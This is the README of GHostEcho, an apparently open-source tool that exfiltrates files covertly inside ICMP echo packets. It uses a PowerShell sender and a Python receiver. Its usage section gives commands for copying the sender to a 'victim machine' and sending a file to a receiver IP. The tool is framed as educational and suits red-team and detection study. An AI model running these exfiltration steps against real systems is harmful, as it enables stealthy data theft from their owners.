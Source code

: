 # GHostEcho

GHostEcho is a stealthy and easy-to-use data exfiltrator over ICMP echo requests by splitting files into chunks and embedding each chunk into an ICMP packet payload. It is inspired by [dahvidschloss/PILOT](https://github.com/dahvidschloss/PILOT). The goal is educational: to demonstrate a constrained, transport-layer-like file transfer using ICMP, including basic integrity checking using CRC32.

The sender is written in PowerShell (works on Windows PowerShell and PowerShell Core).
The receiver is written in Python 3 (standard library only).

## Features

* Stream a file chunk-by-chunk (no full-file buffering) from sender → receiver.
* CRC32 per-chunk integrity check (sender computes, receiver validates).
* Simple metadata packet (filename, filesize, total chunks, chunk size).
* Best-effort transfer (current default: no retransmit/ACK logic). Receiver sends ACK/NAK but sender provided here is best-effort; a reliable mode variant exists elsewhere.
* Inline console progress updates that overwrite the same line (works in standard terminal; IDE consoles may differ).
* Small footprint and no external dependencies (Python receiver uses stdlib only).

## Requirements

* Sender (PowerShell):
  - Windows PowerShell (tested on PS 5.1).
  - Run as unprivileged user.
* Receiver (Python):
  - Python 3.6+ (tested on Python 3.13)
  - No external libraries required (uses socket, struct, binascii, tempfile).
  - Run as root (raw sockets).
* Both systems should be able to exchange ICMP (no network-level blocking).

## Installation

Just clone the repository:
```
git clone https://github.com/D3vil0p3r/GHostEcho.git
cd GHostEcho
```
No build steps required.

## Usage

### Sender
Copy **GHostEcho-Sender.ps1** to the victim machine where you want to exfiltrate data from, open PowerShell and run:
```powershell
.\GHostEcho-Sender.ps1 -TargetIP "192.168.56.101" -FilePath ".\document.pdf" -ChunkSize 1200
```
or import it as a module:
```powershell
. .\GHostEcho-Sender.ps1
```
and use its function:
```powershell
Send-GHostEcho -TargetIP "192.168.56.101" -FilePath ".\document.pdf" -ChunkSize 1200
```
Options:
* `-TargetIP` - destination IP (receiver).
* `-FilePath` - path to file to send (relative to script or absolute).
* `-ChunkSize` - number of bytes per chunk (default recommended: 1200).
* `-DelayMs` - optional inter-chunk delay in ms.
* `-TimeoutMs` - ping timeout in ms.